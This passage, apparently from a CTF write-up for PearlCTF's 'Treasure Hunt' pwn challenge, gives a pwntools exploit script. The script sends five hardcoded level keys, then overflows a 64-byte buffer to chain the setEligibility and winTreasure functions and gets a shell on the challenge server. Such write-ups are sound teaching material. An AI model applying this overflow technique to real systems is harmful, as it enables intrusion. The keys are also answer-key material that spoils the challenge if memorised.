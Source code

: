 ```python=
#!/usr/bin/env python3
#filename: exploit.py

from pwn import *

context.binary = elf = ELF("./vuln", checksec=0)
context.log_level = "debug"

# Prepare the payload.
win_addr = p64(elf.symbols['winTreasure'])
set_eligibility = p64(elf.symbols['setEligibility'])

key_lvl1 = b"whisp3ring_w00ds"
key_lvl2 = b"sc0rching_dunes"
key_lvl3 = b"eldorian_ech0"
key_lvl4 = b"shadow_4byss"
key_lvl5 = b"3ternal_light"

payload = b"A"*(64 - len(key_lvl5))
payload += b"B"*8
payload += set_eligibility
payload += win_addr

# Send all valid keys got from check_key function.
is_remote = True

if is_remote:
    io = remote("treasure-hunt.ctf.pearlctf.in", 30008)
else:
    io = elf.process()

# Send the valid key according to it's level.
io.sendline(key_lvl1)
io.sendline(key_lvl2)
io.sendline(key_lvl3)
io.sendline(key_lvl4)

# Send the last valid key for level 5 and also the payload to win_addr.
io.sendline(key_lvl5 + payload)
io.interactive()
```

- If we run the exploit script remotely, we can get a shell.

![Treasure Hunt-02](https://raw.githubusercontent.com/whyuhurtz/hackmd-blog/main/2025/_assets/pearl-ctf_pwn1-02.png)
